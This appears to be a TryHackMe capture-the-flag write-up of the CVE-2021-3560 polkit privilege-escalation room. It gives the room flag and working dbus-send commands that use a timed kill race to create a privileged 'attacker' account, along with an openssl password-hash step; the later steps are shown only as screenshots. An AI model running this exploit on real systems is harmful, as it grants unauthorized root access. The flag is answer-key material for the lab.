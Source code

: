 Perform the CVE-2021-3560 exploit and get the flag from <code>/root/root.txt</code>!<br>

<strong>Remember to submit the flag you find on the box to https://flag.muir.land/ in order to receive the final flag to submit below</strong>.</p>


<p><em>Answer the question below</em></p>

<p>5.1. Root Flagg<br>
<code>THM{N2I0MTgzZTE4ZWQ0OGY0NjdiNTQ0NTZi}</code></p>

<br>




```bash
tryhackme@polkit:~$ apt list --installed | grep policykit-1
```

<img width="1156" height="283" alt="image" src="https://github.com/user-attachments/assets/40992bbc-7105-4733-94d9-0938475aa65b" />

```bash
tryhackme@polkit:~$time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

<img width="1161" height="396" alt="image" src="https://github.com/user-attachments/assets/fceebb2e-5b71-498f-b57f-b09c081d0a8d" />

```bash
tryhackme@polkit:~$dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```

<img width="1162" height="431" alt="image" src="https://github.com/user-attachments/assets/f06bceb6-9333-45d0-9937-9646046d056e" />

```bash
tryhackme@polkit:~$id attacker
```

<img width="1167" height="471" alt="image" src="https://github.com/user-attachments/assets/30e52cb7-bb92-48e6-acb6-9d319f613a91" />

```bash
openssl passwd -6 Expl01ted
```

<img width="1164" height="524" alt="image" src="https://github.com/user-attachments/assets/155c48c8-5d49-4e0f-a31e-13a57c1bbae4" />

```bash
openssl passwd -6 Expl01ted
```

<img width="1155" height="476" alt="image" src="https://github.com/user-attachments/assets/71ecb901-0f3a-4d01-8530-e0e0949e9624" />

<img width="1161" height="104" alt="image" src="https://github.com/user-attachments/assets/6f952085-9a27-4836-8c00-aa93602b03f6" />


<img width="1166" height="259" alt="image" src="https://github.com/user-attachments/assets/06666d7e-e11b-45ef-950a-4684a826068d" />
